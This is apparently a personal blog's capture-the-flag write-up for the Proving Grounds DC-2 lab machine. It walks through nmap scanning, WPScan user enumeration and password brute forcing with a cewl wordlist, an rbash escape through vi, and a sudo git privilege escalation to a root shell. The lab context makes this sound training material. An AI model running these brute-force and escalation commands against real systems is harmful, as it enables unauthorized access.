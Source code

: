 ```yaml
---
title: "Proving grounds Play: DC-2"
layout: post
date: 2023-09-06 01:00
categories: writeup
---
```


Proving grounds Play - DC-2 CTF writeup.

## Nmap

```sh
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Did not follow redirect to http://dc-2/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 52517b6e70a4337ad24be10b5a0f9ed7 (DSA)
|   2048 5911d8af38518f41a744b32803809942 (RSA)
|   256 df181d7426cec14f6f2fc12654315191 (ECDSA)
|_  256 d9385f997c0d647e1d46f6e97cc63717 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

make entry in the `/etc/hosts` file as `dc-2` for the attacking machine IP.

## Web PORT: 80

![img](/assets/images/CTF/Proving_Grounds/DC-2/web.png)

**Techstack**
- Wordpress

### WPscan

```
wpscan --url $URL --disable-tls-checks --enumerate p --enumerate t --enumerate u
```

**Usernames Enumerated**

```text
admin
jerry
tom
```

### Hint

As shown in the webpage the wordslist has to be created using the tool named `cewl`

```sh
cewl http://dc-2/ > password
```
## Bruteforce credentials usgin WPscan

```sh
wpscan --url http://dc-2/ -U users -P password
```

**Credentials Obtained**

![img](/assets/images/CTF/Proving_Grounds/DC-2/credentials.png)

SSH to the machine using the credentials. The user `jerry` doesn't have SSH login permission, so login to user `tom`.

### Escaping rbash

```sh
vi
:set shell=/bin/bash
:shell
```

Type the above commmands to escape from the rbash to standard unix shell.

User `tom` may not run anything as sudo on machine DC-2. So switch to user `jerry`.

![img](/assets/images/CTF/Proving_Grounds/DC-2/shell.png)

User tom can run `/usr/bin/git` as sudo.

Search for exploit on GTFO Bins. As per the page the binary can be used to elevate sudo permissions using below commands.

![img](/assets/images/CTF/Proving_Grounds/DC-2/exploit.png)

```sh
sudo git -p help config

# Once the git manual page appears type the below and hit enter
!/bin/bash
```

**Root Shell Obtained**

![img](/assets/images/CTF/Proving_Grounds/DC-2/root.png)

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).